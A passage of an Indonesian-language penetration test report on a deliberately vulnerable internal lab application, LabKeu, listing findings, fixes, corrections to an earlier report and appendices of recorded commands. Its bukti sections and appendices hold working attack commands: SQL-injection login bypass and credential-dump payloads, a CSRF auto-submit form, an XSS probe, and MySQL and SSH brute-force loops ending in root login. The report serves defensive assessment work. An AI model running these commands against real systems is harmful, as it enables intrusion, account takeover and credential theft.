**Dampak.** Cookie bisa dibaca `document.cookie` (memperkuat F-05 dan F-11). Pengguna merasa sudah logout tapi cookie sama masih memberi akses penuh. Secret yang biasanya butuh 128-bit entropy berhasil ditebak di percobaan ke-24. Tidak ada invalidasi token.

**Perbaikan.** Pindahkan secret ke environment variable minimal 32 byte acak, pakai store bersama (Redis) untuk multi-instance, set `httpOnly: true, secure: true, sameSite: 'lax', maxAge: 30 menit`, hapus `sessionId` dari respons JSON, dan perbaiki logout dengan `req.session.destroy()`.

---

### F-08 · Password disimpan polos (plaintext) — 8.1 High

> **Status bukti: TERBUKTI** — [`9.png`](bukti-pentest/9.png)
>
> [`9.png`](bukti-pentest/9.png) memperlihatkan kolom `password` berisi `password123` dan `Test12345!` dalam teks polos untuk seluruh baris. Terbukti.

**Apa.** Password disimpan apa adanya di kolom VARCHAR, tanpa hashing, tanpa salt. Login membandingkan teks langsung: `WHERE username = ? AND password = ?`.

**Bukti** — langsung dari database:

```bash
sshpass -p 'Labkeu123' ssh -o StrictHostKeyChecking=no root@192.168.1.18 \
  "docker exec labkeu-db mysql -ulabkeu_user -plabkeu_pass labkeu -e \
   'SELECT id,username,password FROM users LIMIT 3;' 2>/dev/null"
```

```
id  username    password
1   user_a      password123
2   user_b      password123
3   individu1   password123
```

`LENGTH(password) = 11` untuk semua — sesuai teks biasa, bukan hash (bcrypt 60 karakter, argon2 95+).

**Dampak.** Setiap backup database berisi daftar kredensial siap pakai. SQL injection (F-01) yang membaca tabel users sebenarnya membaca password yang langsung bisa dipakai. Pelanggaran NIST SP 800-63B §3.1.1.

**Perbaikan.** Migrasi ke bcrypt work factor 12 atau argon2id, bandingkan dengan `bcrypt.compare()` bukan `WHERE password = ?`, jalankan migrasi satu-kali pada kolom yang panjangnya < 40 karakter, lalu rotasi password satu kali setelah migrasi selesai.

---

### F-09 · Kredensial dikirim tanpa enkripsi — 8.1 High

> **Status bukti: SEBAGIAN** — [`scan-nmap.png`](bukti-pentest/scan-nmap.png)
>
> [`scan-nmap.png`](bukti-pentest/scan-nmap.png) membuktikan hanya 3 port terbuka tanpa listener TLS. Bukti kredensial terbaca di kabel (tcpdump) tidak direkam.

**Apa.** Aplikasi hanya tersedia lewat HTTP tanpa TLS. Tidak ada HTTPS, tidak ada HSTS, tidak ada proxy. Password dan cookie sesi melintas dalam bentuk teks terbuka.

**Bukti.** Tidak ada HSTS sama sekali:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
# Tidak ada: Strict-Transport-Security, Content-Security-Policy, X-Frame-Options
```

Password terbaca di kabel:

```
# password=password123 & username=user_a   <-- TERBACA PLAINTEXT
```

**Dampak.** Penyerang di jalur jaringan yang sama bisa membaca password dan cookie sesi, lalu memakainya untuk membajak sesi. Cookie tidak punya flag `Secure` sehingga browser mengirimnya di HTTP biasa tanpa peringatan.

**Perbaikan.** Tambahkan reverse proxy dengan TLS otomatis, redirect 301 dari HTTP ke HTTPS, set HSTS minimal 1 tahun, hapus mapping port langsung ke host, dan set flag `secure: true` pada cookie sesi.

---

### F-10 · Tidak ada proteksi CSRF — 7.1 High

> **Status bukti: TIDAK LANGSUNG** — [`9.png`](bukti-pentest/9.png)
>
> Tidak ada screenshot respons 200 untuk POST lintas-origin. Hanya artefak akun `zzz_csrf_31965` di [`9.png`](bukti-pentest/9.png).

**Apa.** Tidak ada token CSRF, tidak ada validasi Origin/Referer, pada seluruh endpoint yang mengubah data (`/tambah-data`, `/edit-data/:id`, `/upload`, `/register`, `/logout`).

**Bukti.** POST dari origin yang sepenuhnya berbeda diterima dan efeknya terjadi:

```bash
curl -s -o /dev/null -w 'csrf -> HTTP=%{http_code} -> %{redirect_url}\n' \
  -X POST http://192.168.1.18:3000/register \
  -H 'Origin: http://evil.attacker.test' \
  -d 'username=csrf_from_evil&password=pwn&nama_lengkap=Victim&account_type=individu'
```

Payload halaman penyerang:

```html
<form id="f" method="POST" action="http://192.168.1.18:3000/tambah-data">
  <input type="hidden" name="tahun"   value="2026">
  <input type="hidden" name="uraian"  value="Biaya tidak wajar disetujui tanpa rapat">
  <input type="hidden" name="nominal" value="99000000">
</form>
<script>document.getElementById('f').submit();</script>
```

**Catatan akurasi — penting.** Klasifikasi CWE-352 di sini **bersyarat**. Browser modern menerapkan `SameSite=Lax` sebagai default pada cookie tanpa atribut SameSite, sehingga cookie sesi secara default **tidak** terlampir pada POST lintas situs. Eksploitasi nyata membutuhkan salah satu dari: browser dengan default `SameSite=None`, subdomain same-site yang tepercaya, atau kombinasi dengan XSS (F-05) yang berjalan pada origin yang sama. Karena mitigasi tidak dijalankan, kelemahan ini tetap harus diperbaiki — risiko sebenarnya berasal dari **ketergantungan pada perilaku default browser**, bukan kontrol eksplisit.

**Dampak.** Jika eksploitasi berhasil: penyisipan atau perubahan catatan keuangan atas nama korban, registrasi akun massal, logout paksa.

**Perbaikan.** Token CSRF sinkron (Synchronizer Token Pattern) pada seluruh route yang mengubah state, plus validasi Origin/Referer sebagai lapisan kedua, plus set `SameSite='Strict'` eksplisit pada cookie sesi.

---

### F-11 · Reflected XSS di `/search` — 6.1 Medium

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot permintaan maupun respons `/search`.

**Apa.** Parameter `q` dirender dua kali — satu escaped, satu tidak:

```html
<input type="text" name="q" value="<%= q %>">   <!-- AMAN, ter-escape -->
<p>Hasil pencarian untuk: <%- q %></p>          <!-- RENTAN, mentah -->
```

Pada EJS, `<%= %>` melakukan HTML-escaping, `<%- %>` menulis mentah.

**Bukti.**

```bash
curl -s -b /tmp/cj_indiv \
  "http://192.168.1.18:3000/search?q=%3Cscript%3Ealert(1)%3C%2Fscript%3E" \
  | grep -o 'Hasil pencarian untuk:.*'
```

```
Hasil pencarian untuk: <script>alert(1)</script></p>
```

Tag utuh, tanpa escaping. Cookie sesi korban dapat dicuri dan dipakai membajak sesinya. **Verifikasi cakupan:** hanya `search.ejs` yang memakai `<%- %>` pada data pengguna; seluruh pesan error lain memakai `<%= error %>` dan ter-escape dengan benar. Jadi ruang lingkupnya satu file, bukan seluruh aplikasi.

**Dampak.** Pencurian cookie sesi, aksi atas nama korban, halaman login palsu, pengaruhan UI.

**Perbaikan.** Ganti `<%- q %>` menjadi `<%= q %>` — satu karakter yang menghapus seluruh celah. Tambahkan Content-Security-Policy sebagai lapisan kedua, dan gerbang SAST yang mendeteksi pemakaian operator output tanpa escaping.

---

### F-12 · `/etc/passwd` dapat diunduh publik — 7.5 High

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot pengambilan `/uploads/passwd` maupun kode statusnya.

**Apa.** Berkas `/etc/passwd` versi lama masih berada di folder upload dan dapat diunduh siapa pun tanpa login. Temuan baru, tidak ada di laporan sebelumnya.

**Bukti.**

```bash
curl -s -o /dev/null -w "GET /uploads/passwd -> HTTP=%{http_code}\n" \
  http://192.168.1.18:3000/uploads/passwd
curl -s http://192.168.1.18:3000/uploads/passwd | head -5
```

```
GET /uploads/passwd -> HTTP=200
root:x:0:0:Super User:/root:/bin/bash
bin:x:1:1:bin:/bin:/usr/sbin:/usr/sbin/nologin
...
maulana:x:1000:1000:maulana:/home/maulana:/bin/bash
```

51 user sistem dalam plaintext, anonim. Directory listing memang mati (`GET /uploads/` → 404), tapi `passwd` adalah tebakan pertama yang akan dibuat siapa pun. Di folder yang sama ada 22 berkas artefak pengujian sebelumnya: `shell.php`, `pwned.php`, `xss.html`, dan lainnya.

**Catatan akurasi.** Ini **snapshot lama**, tidak identik dengan `/etc/passwd` container saat ini (`md5sum` berbeda). Tetap saja membocorkan 51 username sistem termasuk akun interaktif `maulana`.

**Dampak.** Username disclosure yang langsung menjadi wordlist brute force SSH. Membuktikan praktik cleanup engagement sebelumnya tidak pernah dijalankan.

**Perbaikan.** Hapus seluruh artefak dari direktori upload dan tabel `dokumen`, beserta akun uji tersisa (`esc_audit`, `test_individu_$(date %s)`, `zzz_unique_*`, `zzz_csrf_*`). Jangan sajikan folder upload sebagai konten statis — layani lewat endpoint yang mewajibkan sesi dan memaksa `Content-Disposition: attachment`.

---

### F-13 · Tidak ada header keamanan — 5.4 Medium

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot blok header respons.

**Apa.** Enam header keamanan yang biasanya dianggap standar tidak ada sama sekali.

**Bukti.**

```bash
curl -s -D - -o /dev/null http://192.168.1.18:3000/login \
  | grep -iE 'x-frame-options|content-security-policy|x-content-type-options|referrer-policy'
# (kosong)
```

Tidak ada: Content-Security-Policy, X-Frame-Options, X-Content-Type-Options, Referrer-Policy, Strict-Transport-Security, Permissions-Policy. `X-Powered-By: Express` membocorkan stack.

**Dampak.** Ini kelemahan *latar* — tidak bisa dieksploitasi langsung, tapi memperbesar dampak setiap kerentanan injeksi yang ada. Tanpa CSP, kedua XSS berjalan tanpa hambatan. Tanpa X-Frame-Options, aplikasi bisa dibungkus iframe untuk clickjacking pada aksi sensitif. Tanpa `nosniff`, risiko MIME-sniffing pada file upload (F-05) bertambah.

**Perbaikan.** Pasang `helmet` dengan CSP ketat dan `frame-ancestors: ["'none'"]`, `noSniff: true`, HSTS 1 tahun, `Referrer-Policy`, lalu `app.disable('x-powered-by')`.

---

### F-14 · Username enumeration di `/register` — 5.3 Medium

> **Status bukti: BELUM DIVERIFIKASI** — **tidak ada berkas bukti**
>
> Tidak ada screenshot pesan error `/register` untuk username ada dan tidak ada.

**Apa.** Pesan error database mentah diteruskan ke pengguna:

```js
} catch (e) {
  res.render('register', { error: 'Gagal daftar: ' + e.message });
}
```

**Bukti.** Dua respons sangat mudah dibedakan mesin:

```bash
# username SUDAH ADA
curl -s -X POST http://192.168.1.18:3000/register \
  -d 'username=user_a&password=x&nama_lengkap=x&account_type=individu' \
  | grep -o '<div class="error">.*</div>'

# username TIDAK ada
curl -s -o /dev/null -w "HTTP=%{http_code} -> %{redirect_url}\n" \
  -X POST http://192.168.1.18:3000/register \
  -d 'username=zzz_not_exist_99999&password=x&nama_lengkap=x&account_type=individu'
```

```
<div class="error">Gagal daftar: Duplicate entry 'user_a' for key 'users.username'</div>
HTTP=302 -> http://192.168.1.18:3000/login
```

Pesannya juga membocorkan nama tabel (`users`), kolom (`username`), dan nama unique key. **Jalur login sendiri aman** — `Username atau password salah.` identik untuk kedua kasus. Output di-escape dengan benar (`&#39;`), jadi ini **bukan** XSS, murni enumerasi.

**Dampak.** Peta username untuk serangan terarah diperoleh tanpa satu pun kredensial, sehingga mempersempit brute force secara signifikan. Pengungkapan skema database (nama tabel, kolom, unique key) membantu penyerang menyusun payload SQLi (F-01). Respons HTTP berbeda (200 galat vs 302 berhasil) memberi konfirmasi visual bahwa pendaftaran berhasil, yang tidak disadari pengguna.

**Perbaikan.** Pesan generik untuk semua kondisi kegagalan, detail hanya ke log server. Kode status sama (400) untuk semua kegagalan. `SELECT account_type FROM users WHERE username='...'` harus menghasilkan `individu`, bukan `perusahaan`.

---

### F-15 · Temuan infrastruktur — 9.8 Critical (komposit)

> **Status bukti: SEBAGIAN** — [`8.png`](bukti-pentest/8.png), [`9.png`](bukti-pentest/9.png), [`10.png`](bukti-pentest/10.png), [`11.png`](bukti-pentest/11.png)
>
> MySQL terbuka ([`8.png`](bukti-pentest/8.png), [`9.png`](bukti-pentest/9.png)) dan SSH root ([`10.png`](bukti-pentest/10.png), [`11.png`](bukti-pentest/11.png)) terbukti. Klaim grup docker, container berjalan sebagai root, dan secret bocor di artefak deployment **tidak** punya screenshot — [`11.png`](bukti-pentest/11.png) hanya memuat `id`, `uname -a`, `cat /etc/alpine-release`.

**Apa.** Lima kelainan konfigurasi yang saling menguatkan.

**Bukti. 15.1 MySQL ter-expos** — port 3307 dipetakan ke `0.0.0.0`, padahal komentar `docker-compose.yml` menyatakan "hanya localhost". Brute force 40 kombinasi menemukan `labkeu_user` / `labkeu_pass`, yang punya `ALL PRIVILEGES` pada skema `labkeu`. Kontrol aplikasi dilewati sepenuhnya.

**15.2 Privilege escalation lewat grup docker** — akun non-root `labkeu` adalah anggota grup `docker` yang punya akses baca-tulis ke `/var/run/docker.sock`:

```
uid=1000(labkeu) gid=1000(labkeu) groups=1000(labkeu),10(wheel),102(docker)
srw-rw---- 1 root docker 0 /var/run/docker.sock
```

Setiap anggota grup docker secara efektif **setara root** pada host. Tidak dieksekusi pada engagement ini karena root sudah diperoleh lewat jalur lain, tapi vektornya terbukti ada.

**15.3 SSH root dengan password lemah** — `PermitRootLogin yes` + `PasswordAuthentication yes` + password `Labkeu123` yang berhasil ditebak dalam 2 detik. Diperparah F-06.

**15.4 Kedua container berjalan sebagai root** — `uid=0(root)` pada `labkeu-app` dan `labkeu-db`. Setiap RCE di aplikasi langsung berarti root di dalam container, dan lewat 15.2 berpotensi root di host.

**15.5 Secret bocor di artefak deployment** — `SESSION_SECRET`, `DB_PASSWORD`, `MYSQL_PASSWORD`, `MYSQL_ROOT_PASSWORD` ter-hardcode di `docker-compose.yml` dan terbaca sebagai environment variable di dalam container.

**Catatan akurasi.** Perintah `mysql -h 192.168.1.18 -P 3307 -u root -prootpass` menghasilkan
`ERROR 1045 (28000): Access denied`. Jadi kebocoran `MYSQL_ROOT_PASSWORD` **tidak** berujung pada akses root database. Yang berdampak adalah `labkeu_user` dengan `ALL PRIVILEGES`.

**Dampak.** Kelima kelainan di atas saling memperparah: database terbuka memberi akses data penuh tanpa melewati kontrol aplikasi; grup docker mengubah akun non-root menjadi setara root; SSH root lemah memberi jalur kedua menuju host; container yang berjalan sebagai root memperbesar radius ledakan setiap RCE; dan secret yang bocor membuat semua kredensial mudah dipulihkan.

**Perbaikan.** Bind database ke `127.0.0.1:3307`, hapus keanggotaan grup docker (`gpasswd -d labkeu docker`), set `PermitRootLogin no` + `PasswordAuthentication no` + `AllowUsers`, jalankan container sebagai user non-root, dan pindahkan seluruh secret ke file `.env` yang tidak di-commit dengan mode 600 — lalu rotasi nilai yang sudah terekspos.

---

## 6. Temuan Negatif — Yang Teruji Aman

Bagian ini penting untuk mencegah klaim berlebihan. Berikut pengujian yang **sudah dijalankan** dan hasilnya menunjukkan **tidak rentan**:

| Yang diuji | Hasil |
|---|---|
| Source code & backup terekspos lewat web? | 12 path sensitif (`.env`, `.git/config`, `server.js`, `Dockerfile`, `README.md`, `backup.zip`, …) → **semua 404** |
| Directory listing aktif? | `GET /uploads/` → 404. Tapi isi tetap bisa diambil bila nama ditebak (F-12) |
| `npm audit` | **found 0 vulnerabilities** — semua temuan dari kode sendiri, bukan CVE library |
| Path traversal di filename upload? | **GAGAL**, diverifikasi di disk. Multer menyaring `../` |
| SQLi di `/login` portal? | **Aman** — sudah parameterized query. Hanya `/login-noportal` yang rentan (F-01) |
| Pesan error ter-escape? | **Ya** — semua view pakai `<%= error %>`; hanya `search.ejs` yang `<%-` (F-11) |
| SSRF atau command injection? | **Tidak ada** — nol endpoint yang me-fetch URL dari user, nol `child_process`/`exec` dengan input user |
| Root MySQL terjangkau dari jaringan? | **Tidak** — `ERROR 1045: Access denied` (F-15.5) |
| Forgot-password membocorkan keberadaan akun? | **Tidak** — respons identik apa pun status akun |

---

## 7. Koreksi atas Laporan Sebelumnya

Enam koreksi faktual yang memisahkan laporan ini dari laporan lama:

Koreksi pertama adalah yang paling material: draf sebelumnya mengalamatkan target di `192.168.1.93` dan menyatakan `192.168.1.18` sudah mati. Tidak satu pun bukti mendukung itu. Sebaliknya, [`ping.png`](bukti-pentest/ping.png) menunjukkan `192.168.1.18` menjawab 4 dari 4 paket, dan kedua belas bukti pada engagement ini diambil di alamat tersebut. Seluruh dokumen karena itu dialamatkan ke `192.168.1.18`.

| # | Klaim lama | Kenyataan | Tindakan |
|---|---|---|---|
| 1 | Target `192.168.1.93` dengan alasan `192.168.1.18` sudah mati | **Tidak didukung bukti apa pun.** [`ping.png`](bukti-pentest/ping.png) justru membuktikan `192.168.1.18` hidup (0% packet loss), dan seluruh 12 bukti diambil di `192.168.1.18` | Target dikoreksi ke `192.168.1.18`; setiap temuan dianotasi ke berkas buktinya |
| 2 | Bukti listener pakai `ss -ltn` | `ss` tidak ada di host Alpine (`sh: ss: not found`) — evidence tidak reproducible | Diganti `netstat -ltnp` |
| 3 | Respons IDOR kosong = 22 byte | Sebenarnya `[]` = **2 byte**. Heuristik lama salah | Diganti hitung kemunculan field `perusahaan_id` |
| 4 | "Pembersihan jejak" selesai | **False.** 4 akun uji & 22 baris dokumen masih ada, `/uploads/passwd` live & publik | Dilaporkan sebagai F-12 |
| 5 | Self-register `perusahaan` langsung bisa akses data | Akun tsb `perusahaan_id=NULL`, dashboard **kosong**. Akses data baru jalan lewat IDOR | Nuansa ditulis di F-03 |
| 6 | Dump kredensial lewat kolom `password` | Teknik rapuh (batas `GROUP_CONCAT` + escaping) | Diganti subquery ke `nama_lengkap` |

---

## 8. Rekomendasi Berdasarkan Prioritas

### Segera (≤ 7 hari)

1. **F-01** — parameterisasi query di kedua endpoint login. Satu perubahan, memutus jalur terpendek.
2. **F-02** — hapus kredensial demo dari template, rotasi password yang terekspos.
3. **F-15.3 dan F-15.5** — matikan `PermitRootLogin yes`, wajibkan kunci SSH, pindahkan secret ke environment variable, rotasi nilai yang bocor.
4. **F-12** — bersihkan direktori upload dan tabel dokumen beserta akun uji tersisa.

### Jangka pendek (≤ 30 hari)

5. **F-04** — bandingkan `perusahaan_id` dari session dengan nilai dari URL.
6. **F-03** — hapus `account_type` dari body request, tetapkan di server.
7. **F-06** — rate limiting berlapis + account lockout dengan jendela meningkat.
8. **F-05** — whitelist ekstensi, validasi magic bytes, simpan di luar webroot, sajikan sebagai attachment.
9. **F-07** — secret dari environment variable (min. 32 byte), flag `HttpOnly`/`Secure`, perbaiki logout dengan `session.destroy()`.

### Jangka menengah (≤ 90 hari)

10. **F-08** — migrasi ke bcrypt work factor 12, lalu rotasi sekali.
11. **F-09** — TLS di reverse proxy + HSTS, hentikan HTTP langsung.
12. **F-13** — pasang `helmet` dengan CSP ketat, `frame-ancestors: none`, `nosniff`.
13. **F-10 dan F-11** — token CSRF sinkron; ganti `<%- %>` menjadi `<%= %>`.
14. **F-14** — pesan galat generik di `/register`.
15. **F-15.1, 15.2, 15.4** — bind DB ke loopback, hapus grup docker, container non-root.

### Proses berkelanjutan

- **SAST + DAST sebagai gerbang build.** SAST wajib memblokir build bila terdeteksi penggabungan string di klausa SQL atau pemakaian output template tanpa escaping.
- **Gate pemindaian secret di repositori** agar kredensial yang masuk ke kode tertangkap sebelum commit.
- **Prosedur cleanup wajib di akhir setiap engagement**, diautomasi.
- **Penilaian ulang** setelah tiap fase perbaikan, untuk memastikan tidak ada regresi.

---

## 9. Kesimpulan

Aplikasi LabKeu memiliki risiko **KRITIS**. Dari titik nol, penyerang mencapai root penuh dan akses database penuh dalam ~4 menit.

Tiga kelemahan struktural menjadi penyebab mendasar dan perlu ditangani menyeluruh:

1. **Tidak ada pemisahan batas kepercayaan** antara input pengguna dan query database (F-01).
2. **Tidak ada pemeriksaan kepemilikan objek** pada API, sehingga isolasi antar tenant tidak berjalan (F-04).
3. **Secret dikelola sebagai string hard-coded** di dalam kode dan artefak deployment (F-02, F-07, F-15), sehingga kredensial berubah dari rahasia menjadi informasi publik.

Urutan yang direkomendasikan: **F-01 dulu** (dampaknya paling besar, paling cepat dihentikan), lalu **F-02** (penutupannya hanya menghapus teks dari template), lalu **F-06 dan F-15** (menutup jalur akses root), lalu **F-04** (memulihkan isolasi data). F-08 dan F-09 memerlukan perubahan lebih besar (hash password, TLS) dan bisa dijadwalkan berikutnya — tapi keduanya adalah prasyarat agar kerentanan lain tidak bisa dieksploitasi berulang kali.

---

## 10. Catatan Otorisasi

Seluruh pengujian dilakukan pada **lab internal yang sengaja dibuat rentan dan terisolasi**. Dikonfirmasi dari README repositori target: *"HANYA untuk lab lokal/isolated, jangan pernah di-deploy ke internet"* dan *"Aplikasi ini untuk latihan menemukan, bukan contekan langsung"*. Data dan instansi fiktif, bukan GEMATI/BBGTK asli.

Tidak ada data produksi tersentuh, tidak ada denial-of-service disengaja, tidak ada payload merusak. Semua file uji dibuat dari konten dummy dan dihapus kembali.

**Perintah di dokumen ini hanya boleh dijalankan pada sistem yang Anda miliki atau yang telah mendapat izin tertulis untuk diuji.**

---

## Lampiran A — Perintah yang Telah Terbukti

Perintah di bawah adalah yang benar-benar direkam di `bukti-pentest/`. Nama berkas pada komentar menunjukkan bukti pendukungnya.

```bash
# 1. Keterjangkauan host                                          [ping.png](bukti-pentest/ping.png)
ping -c 4 192.168.1.18
#   -> 4 packets transmitted, 4 received, 0% packet loss
#   -> rtt min/avg/max/mdev = 1.115/3.966/10.472/3.781 ms

# 2. Port & versi                                                 [scan-nmap.png](bukti-pentest/scan-nmap.png)
nmap -Pn -sV -p 22,3000,3307 192.168.1.18
#   -> 22/tcp   open  ssh     OpenSSH 10.3 (protocol 2.0)
#   -> 3000/tcp open  http    Node.js Express framework
#   -> 3307/tcp open  mysql   MySQL 8.0.46
#   -> MAC Address: 08:00:27:81:9D:8D
# CATATAN: tanpa -sC, sehingga nomor versi Node/Express tidak dapat disimpulkan.

# 3. Kredensial pada halaman publik            [2.png - TANPA OUTPUT, belum terbukti]
curl -s http://192.168.1.18:3000/login | grep -oE 'Contoh akun:.*'

# 4. Login foothold                                                 [3.png](bukti-pentest/3.png)
curl -s -c /tmp/c -o /dev/null -w "HTTP=%{http_code} -> %{redirect_url}\n" \
  -X POST http://192.168.1.18:3000/login \
  -d "username=individu1&password=password123"
#   -> HTTP=302 -> http://192.168.1.18:3000/dashboard

# 5. IDOR: baca data perusahaan lain                                  [4.png](bukti-pentest/4.png)
curl -s -b /tmp/c http://192.168.1.18:3000/api/perusahaan/2/data-keuangan
#   -> 2 baris JSON dengan "perusahaan_id":2, atas sesi yang perusahaan_id-nya NULL

# 6. SQLi: jumlah kolom                  [5.png - TANPA OUTPUT, belum terbukti]
curl -s -X POST http://192.168.1.18:3000/login-noportal \
  --data-urlencode "username=user_a' ORDER BY 7-- -" \
  --data-urlencode "password=x" | grep -oE 'Query error: [^<]*'

# 7. SQLi: auth bypass                                         [6.png - sebagian]
curl -s -c /tmp/s -o /dev/null -w "HTTP=%{http_code} -> %{redirect_url}\n" \
  -X POST http://192.168.1.18:3000/login-noportal \
  --data-urlencode "username=x' UNION SELECT 1,'hacker','x','perusahaan','BlackHat',1-- -" \
  --data-urlencode "password=x"
curl -s -b /tmp/s http://192.168.1.18:3000/dashboard \
  | grep -oE 'Masuk sebagai: <strong>[^<]*</strong>'
#   -> HTTP=302 -> .../dashboard
#   -> baris "Masuk sebagai: BlackHat" TIDAK tercetak di 6.png

# 8. SQLi: dump kredensial              [7.png - TANPA OUTPUT, belum terbukti]
P="x' UNION SELECT 1,'p','x','perusahaan',(SELECT GROUP_CONCAT(CONCAT(id,':',
  username,'/',password,'/',account_type,'/pid=',IFNULL(perusahaan_id,'NULL'))
  ORDER BY id SEPARATOR ' | ') FROM users),1-- -"
curl -s -c /tmp/d -o /dev/null -X POST http://192.168.1.18:3000/login-noportal \
  --data-urlencode "username=$P" --data-urlencode "password=x"
curl -s -b /tmp/d http://192.168.1.18:3000/dashboard \
  | grep -oE 'Masuk sebagai: <strong>[^<]*</strong>'

# 9. Brute force MySQL 3307                                          [8.png](bukti-pentest/8.png)
for u in root labkeu_user labkeu admin; do
  for p in "" root rootpass labkeu_pass password123 labkeu123; do
    [ -z "$p" ] && A="" || A="-p$p"
    mysql -h 192.168.1.18 -P 3307 -u "$u" $A --skip-ssl -e "SELECT 1" >/dev/null 2>&1 \
      && echo "TEMUKAN: $u / ${p:-<kosong>}"
  done
done
#   -> TEMUKAN: labkeu_user / labkeu_pass

# 10. Dump database                                                 [9.png](bukti-pentest/9.png)
mysql -h 192.168.1.18 -P 3307 -u labkeu_user -plabkeu_pass --skip-ssl labkeu \
  -e "SHOW TABLES; SELECT * FROM users; SELECT * FROM data_keuangan;"
#   -> 4 tabel: data_keuangan, dokumen, perusahaan, users
#   -> kolom password berisi password123 / Test12345! dalam teks polos

# 11. Brute force SSH (Hydra)                                       [10.png](bukti-pentest/10.png)
printf 'root\nlabkeu\nadmin\nubuntu\n' > /tmp/u.txt
printf 'Labkeu\nlabkeu123\npassword\npassword123\nroot123\ntoor\n' > /tmp/p.txt
hydra -L /tmp/u.txt -P /tmp/p.txt -t 4 -W 3 -f 192.168.1.18 -s 22 ssh
#   -> 24 login tries (1:4/p:6)
#   -> [22][ssh] host: 192.168.1.18 login: root password: Labkeu123
#   -> 1 valid password found, 00:42:52 -> 00:42:54 (2 detik)

# 12. Konfirmasi root                                              [11.png](bukti-pentest/11.png)
sshpass -p 'Labkeu123' ssh -o StrictHostKeyChecking=no root@192.168.1.18 \
  "id; uname -a; cat /etc/alpine-release"
#   -> uid=0(root) gid=0(root)
#   -> Linux localhost 6.18.52-0-lts ... x86_64
#   -> 3.24.2
```

## Lampiran B — Perintah Pengambilan Ulang (Belum Terverifikasi)

Delapan temuan tidak punya bukti. Perintah di bawah menutup celah tersebut. Setelah bukti diambil, jalankan ulang `python3 report/build_report.py` dan `python3 annotate_md.py` agar status berubah otomatis.

| Temuan | Yang harus dijalankan | Yang harus terlihat |
|---|---|---|
| F-02 | `curl -s http://192.168.1.18:3000/login \| grep -oE 'Contoh akun:.*'` | Baris output berisi kredensial demo |
| F-01 | `curl -s -X POST .../login-noportal --data-urlencode "username=user_a' ORDER BY 7-- -" --data-urlencode 'password=x' \| grep -oE 'Query error: [^<]*'` | Pesan error database |
| F-01 | `curl -s -b /tmp/s .../dashboard \| grep -oE 'Masuk sebagai: <strong>[^<]*</strong>'` | `Masuk sebagai: <strong>BlackHat</strong>` |
| F-01 | Jalankan payload `GROUP_CONCAT` lalu cetak hasil `grep` | Hasil dump tercetak, bukan hanya payload |
| F-06 | `for i in $(seq 1 100); do curl -s -o /dev/null -w '%{http_code}\n' -X POST http://192.168.1.18:3000/login-noportal -d 'username=user_a&password=WRONG'; done \| sort \| uniq -c` | Seluruh kode HTTP, tanpa 429/403 |
| F-06 | `for i in $(seq 1 1000); do curl -s -o /dev/null -w '%{http_code}\n' -X POST http://192.168.1.18:3000/register -d "username=bulk_$i&password=Test1234"; done \| sort \| uniq -c` | Lalu hitung baris baru di tabel `users` |
| F-07 | `curl -s -D - -o /dev/null http://192.168.1.18:3000/login` | Header `Set-Cookie` terlihat jelas |
| F-07 | `curl -s -b /tmp/c -c /tmp/c -o /dev/null -X POST .../logout; curl -s -b /tmp/c -o /dev/null -w 'reuse -> %{http_code} -> %{redirect_url}\n' .../dashboard` | `302` ke `/dashboard` meski sudah logout |
| F-03 | `curl -s -X POST .../register -d 'username=esc_test1&password=Test1234&account_type=perusahaan'` | Kode status + isi dashboard sesi hasilnya |
| F-14 | `curl -s -X POST .../register -d 'username=user_a&password=x'; curl -s -X POST .../register -d 'username=tidak_ada_zzz&password=x'` | Dua pesan error berbeda berdampingan |
| F-12 | `curl -s -o /dev/null -w 'HTTP=%{http_code}\n' http://192.168.1.18:3000/uploads/passwd` | Kode status + 5 baris pertama isi |
| F-13 | `curl -s -D - -o /dev/null http://192.168.1.18:3000/login` | Seluruh blok header respons |
| F-11 | `curl -s "http://192.168.1.18:3000/search?q=%3Cscript%3Ealert(1)%3C/script%3E" \| grep -o '<script>alert(1)</script>'` | Script tidak ter-escape muncul utuh |
| F-05 | `curl -s -b /tmp/c -F 'file=@test.html' http://192.168.1.18:3000/upload` | File tersimpan & dapat diambil dari `/uploads/` |
| F-09 | Terminal 1: `tcpdump -A -s0 'tcp port 3000'` · Terminal 2: `curl` login | Baris POST berisi `password123` polos |
| F-15 | `sshpass -p 'Labkeu123' ssh root@192.168.1.18 'id labkeu; ls -l /var/run/docker.sock; docker ps; grep -r SESSION_SECRET /home/labkeu'` | Keempat hasil dalam satu frame |
| F-01 | `nmap -Pn -sV -sC -p 22,3000,3307 192.168.1.18` | Nomor versi Node.js dan Express |

## Lampiran C — Perintah Negatif (Diharapkan Gagal)

```bash
# Source & backup tidak boleh terekspos
for p in .env .git/config package.json server.js routes/auth.js \
         routes/dashboard.js db/db.js Dockerfile README.md backup.zip \
         app.bak node_modules/.package-lock.json; do
  printf "  %-34s %s\n" "$p" \
    "$(curl -s -o /dev/null -w '%{http_code}' "http://192.168.1.18:3000/$p")"
done
#   -> semuanya 404

# Root MySQL tidak boleh terjangkau
mysql -h 192.168.1.18 -P 3307 -u root -prootpass --skip-ssl -e "SELECT 1"
#   -> ERROR 1045 (28000): Access denied
```

---

**Skor CVSS dihitung dengan rumus resmi FIRST v3.1, bukan estimasi manual.** Karena itu beberapa skor berbeda dari tabel yang beredar luas: F-03 = **8.2** (bukan 8.1), F-09 = **8.1**, F-10 = **7.1** (bukan 6.3). Aritmetika lengkap per temuan tersedia di Lampiran A dokumen `.docx`.

---

## Lampiran D — Bukti Visual

Dua belas screenshot asli dari pengujian, tersimpan di `bukti-pentest/`. Nomor di kiri adalah jam penangkapan (WIB). Yang bertanda **belum terbukti** memang direkam tanpa output — sengaja dibiarkan apa adanya, bukan dihapus, supaya klaim yang tidak terbukti bisa dinilai sendiri oleh pembaca.

### [`ping.png`](bukti-pentest/ping.png) — Keterjangkauan host

**Jam 00:08 WIB.**

